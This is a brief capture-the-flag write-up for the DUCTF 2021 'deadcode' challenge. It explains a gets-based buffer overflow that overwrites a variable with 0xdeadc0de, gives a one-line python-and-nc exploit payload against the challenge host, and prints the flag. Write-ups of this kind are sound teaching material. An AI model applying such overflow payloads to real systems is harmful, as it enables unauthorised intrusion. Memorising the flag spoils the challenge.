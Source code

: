 # Challenge
I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.  
  
# Setup
Host: pwn-2021.duc.tf  
Port: 31916  
Executable: [deadcode](deadcode)  
  
# Solution
After decompiling the binary with ghidra, we see that the program was receives user input with the `gets` function, which is [very vulnerable](https://man7.org/linux/man-pages/man3/gets.3.html#DESCRIPTION).  
  
Since the function places no limit to the size of our input, we can create a buffer overflow which overflows past the allocated 24 bytes for us, and overwrite the next variable with 0xdeadc0de in order to get a shell (using `cat -` to keep the pipe open). 
Payload: `(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFF\xde\xc0\xad\xde'"; cat -) | nc pwn-2021.duc.tf 31916`
Flag: **DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}**
